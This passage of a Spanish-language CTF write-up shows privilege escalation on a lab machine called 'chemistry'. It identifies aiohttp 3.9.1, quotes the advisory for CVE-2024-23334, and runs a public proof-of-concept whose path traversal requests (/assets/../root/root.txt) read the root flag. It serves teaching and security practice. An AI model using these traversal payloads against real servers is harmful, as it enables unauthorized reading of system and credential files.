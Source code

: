 Revisaremos las cabeceras del sitio web en busca de información interesante. Entre la información encontrada, verificamos que utiliza `aiohttp/3.9.1`.

```bash
rosa@chemistry:~$ curl localhost:8080 --head
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 5971
Date: Wed, 15 Jan 2025 03:31:00 GMT
Server: Python/3.9 aiohttp/3.9.1
```

Realizando una búsqueda sobre posibles vulnerabilidades de la versión del servidor, nos encontramos con el siguiente `CVE-2024-23334`.

{% embed url="https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2024-23334" %}

{% hint style="danger" %}
aiohttp es un framework cliente/servidor HTTP asíncrono para asyncio y Python. Cuando se utiliza aiohttp como servidor web y se configuran rutas estáticas, es necesario especificar la ruta raíz para los archivos estáticos. Además, la opción 'follow\_symlinks' se puede utilizar para determinar si se deben seguir enlaces simbólicos fuera del directorio raíz estático.

Cuando 'follow\_symlinks' se establece en Verdadero, no hay validación para verificar si la lectura de un archivo está dentro del directorio raíz. Esto puede generar vulnerabilidades de directory traversal, lo que resulta en acceso no autorizado a archivos arbitrarios en el sistema, incluso cuando no hay enlaces simbólicos presentes.&#x20;

Se recomiendan como mitigaciones deshabilitar follow\_symlinks y usar un proxy inverso. La versión 3.9.2 soluciona este problema.
{% endhint %}

También nos encontramos con el siguiente repositorio que nos muestra un PoC (Proof of concept) de la explotación de esta vulnerabilidad de Path Traversal. Realizando la explotación, verificamos que hemos logrado obtener directamente la flag de **root.txt**.

{% hint style="warning" %}
En nuestro caso, deberemos de modificar el exploit original para que utilice el puerto 8080 y no el que viene por defecto que es el 8081.
{% endhint %}

{% embed url="https://github.com/Arc4he/CVE-2024-23334-PoC/tree/main" %}

```bash
rosa@chemistry:~$ cat exploit.py | grep localhost
    url = "http://localhost:8080/assets/"
    
rosa@chemistry:~$ chmod +x exploit.py 

rosa@chemistry:~$ ./exploit.py 
Sending payloads...
Round 1: http://localhost:8080/assets/../root/root.txt
Round 2: http://localhost:8080/assets/../../root/root.txt
Round 3: http://localhost:8080/assets/../../../root/root.txt
[+] Success! File found.
HTTP/1.1 200 OK
Content-Type: text/plain
Etag: "181abcea3a49356f-21"
Last-Modified: Wed, 15 Jan 2025 02:32:01 GMT
Content-Length: 33
Accept-Ranges: bytes
Date: Wed, 15 Jan 2025 03:42:58 GMT
Server: Python/3.9 aiohttp/3.9.1

0c7f9ccbed3a657*****************
```
